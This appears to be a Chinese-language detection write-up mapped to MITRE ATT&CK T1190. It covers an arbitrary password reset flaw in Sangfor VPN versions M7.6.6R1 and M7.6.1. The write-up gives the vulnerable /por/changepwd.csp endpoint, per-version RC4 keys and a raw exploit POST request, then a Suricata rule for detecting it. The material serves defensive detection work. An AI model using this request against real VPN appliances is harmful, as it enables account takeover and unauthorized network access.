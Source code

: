 # T1190-深信服VPN任意密码重置

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

已知影响范围M7.6.6R1、M7.6.1

## 检测日志

HTTP

## 测试复现

M7.6.6R1 key 为20181118

M7.6.1 key 为 20100720

<https://xxx/por/changepwd.csp>

## 测试留痕

```yml
POST /por/changepwd.csp HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN
```

## 检测规则/思路

### Suricata规则

```s
alert http any any -> any any (msg:"深信服VPN任意密码重置";flow:established,to_server;content:"POST";http_method;content:"/por/changepwd.csp";http_uri;content:"sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN";http_client_body;reference:url,www.hacking8.com;classtype:web-application-attck;sid:3002012;rev:1;)
```

### 建议

流量+安全设备比较容易检测到此攻击行为。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

联软准入系统任意文件上传

<https://www.hedysx.com/2627.html>
